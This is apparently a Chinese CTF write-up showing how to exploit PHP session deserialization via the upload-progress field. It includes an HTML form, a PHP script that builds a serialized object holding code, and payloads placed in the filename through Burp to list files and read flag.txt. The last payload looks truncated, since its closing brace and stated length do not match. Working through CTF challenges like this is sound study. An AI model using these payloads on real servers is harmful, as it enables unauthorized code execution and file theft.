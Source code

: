 1. 在本地构建一个表单：

```html
<form action="http://127.0.0.1/ctf/1.php" method="POST" enctype="multipart/form-data">
	<input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="ryat" />
	<input type="file" name="file" />
	<input type="submit" />
</form>

```
<br>
2. 构造 payload：

```php
<?php

error_reporting(0);

ini_set('session.serialize_handler', 'php_serialize');  
session_start();

class OowoO
{
    public $mdzz = 'print_r(scandir(dirname(FILE)))';
}
$obj = new OowoO;
echo serialize($obj);  

// Out: O:5:"OowoO":1:{s:4:"mdzz";s:31:"print_r(scandir(dirname(FILE)))";}

?>

```
<br>

3. 本地打开表单后，随便提交一个文件，然后使用 burp 抓包将 filename 的值改成 Payload 值：

`O:5:"OowoO":1:{s:4:"mdzz";s:31:"print_r(scandir(dirname(FILE)))";}`

```php
// Ex:

Array
(
    [0] => .
    [1] => ..
    [2] => .idea
    [3] => flag.txt
    [4] => xlhtext.php
)

```
<br>
4. 再通过 `phpinfo()` 找到文件的绝对路径：

```php
//EX:

SCRIPT_FILENAME             E:/phpstudy/PHPTutorial/WWW/web/03-fxlh-1.php  
OR
_SERVER["SCRIPT_FILENAME"]  E:/phpstudy/PHPTutorial/WWW/web/03-fxlh-1.php 

```
<br>
5. 构建 Payload 提取 Flag：

```oho
print_r(file_get_contents("E:/phpstudy/PHPTutorial/WWW/web/flag.txt"))

// 序列化：

O:5:"OowoO":1:{s:4:"mdzz";s:70:"print_r(file_get_contents("E:/phpstudy/PHPTutorial/WWW/web/flag.txt"))";

```
输出 Flag
